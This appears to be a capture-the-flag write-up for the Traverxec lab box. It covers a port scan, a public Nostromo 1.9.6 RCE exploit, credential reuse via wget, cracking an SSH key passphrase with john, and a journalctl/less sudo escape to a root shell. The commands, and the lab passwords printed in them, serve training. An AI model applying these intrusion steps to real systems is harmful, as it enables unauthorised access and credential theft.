








# Traverxec - Linux (Easy)

## Summary
Traverxec was an interesting box that involved exploiting a RCE vulnerability in a webserver called Nostromo. I was able to get SSH access eventually and escalate this to fully compromise the machine.

## Enumeration

I started Enumeration by running Rustscan on the the target.

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

rustscan -a $machine_IP -- -A -sV -sC -T4 -v
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)

80/tcp open  http    syn-ack ttl 63 nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
|_http-title: TRAVERXEC
| http-methods: 
|_  Supported Methods: GET HEAD POST
```

## Port 80 - HTTP

Despite not getting substantial results from Nikto or Gobuster, the Nmap scan resulted in a version number for Nostromo - `1.9.6`. Running Searchsploit against this particular version provided a [RCE entry](https://www.exploit-db.com/exploits/47837) on ExploitDB.



This exploit required the following syntax to appropriately work

```
Usage: python exploit.py <Target_IP> <Target_Port> <Command>
```

I was able to test this out by running the `id` command before expanding this to setup and pick up a reverse shell







This gave me an initial shell as `www-data` and I needed to pivot laterally to find a legitimate user to privesc as. I pulled Linpeas from my attacker box and I ran it on the target which came up with a MD5 hash for a user named David that I was able to crack with hashcat.




Linpeas also identified a configuration directory at `/var/nostromo/conf` called `public_www`

```
www-data@traverxec:/$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area
www-data@traverxec:/home/david/public_www$ cd protected-file-area/
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

I was able to transfer this SSH backup file to my attack box. Since I knew the password, I was able to connect to the target using `wget` and pull down the file

```
wget http://david:Nowonly4me@$machine_IP/~david/protected-file-area/backup-ssh-identity-files.tgz
```

This had a hidden `.ssh` directory with the `id_rsa` file which unfortunately, was password protected. However, using `ssh2john` I was able to crack the hash.

```
ssh2john id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

This provided the `id_rsa` key as `hunter` which I was able to use to login as David.



## Privilege Escalation

In this case I was not able to run `sudo -l` as a quick win and I don't believe that David is in the sudoers group in any case. However, running Linpeas again showed that the `/bin` directory had an interesting script present 

```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

This explains how `journalctl` is being run as root. I refer to the [GTFO Bins](https://gtfobins.github.io/gtfobins/journalctl/) entry for `journalctl` which explains how this can be bypassed. Interestingly, I am unable to run this and get less as my terminal is too big. As a workaround, I opened a new vertical terminal to sort this size issue and force the terminal into `less`. Once in `less`, I can escape to a root shell with `!/bin/bash` and grab the `root.txt` flag.



